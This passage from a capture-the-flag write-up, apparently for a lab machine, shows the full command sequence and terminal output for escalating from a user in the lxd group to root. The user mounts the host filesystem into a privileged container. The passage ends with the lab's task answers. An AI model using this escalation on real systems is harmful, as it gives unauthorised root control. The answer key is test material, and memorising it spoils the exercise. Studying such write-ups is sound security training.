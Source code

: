 ```shell
```

Now to add the container with the root path:

```shell
mike@included:~$ lxc init alpine privesc -c security.privileged=true 
lxc init alpine privesc -c security.privileged=true 
Creating privesc
mike@included:~$ lxc list
lxc list
+---------+---------+------+------+------------+-----------+----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS | LOCATION |
+---------+---------+------+------+------------+-----------+----------+
| privesc | STOPPED |      |      | PERSISTENT | 0         | included |
+---------+---------+------+------+------------+-----------+----------+
mike@included:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
/root recursive=trued privesc host-root disk source=/ path=/mnt/
Device host-root added to privesc
```

Now execute the container and gain root access:

```shell
mike@included:~$ lxc start privesc
lxc start privesc
mike@included:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # ^[[39;5R

~ # ^[[39;5R whoami
whoami
root
```

I navigated through the image file system to `/mnt/root/root` and got the root flag.

---

## Tasks & Answers

**Task 1**: What service is running on the target machine over UDP?
> tftp

**Task 2**: What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?
> Local File Inclusion

**Task 3**: What is the default system folder that TFTP uses to store files?
> /var/lib/tftpboot/

**Task 4**: Which interesting file is located in the web server folder and can be used for Lateral Movement?
> .htpasswd

**Task 5**: What is the group that user Mike is a part of and can be exploited for Privilege Escalation?
> lxd

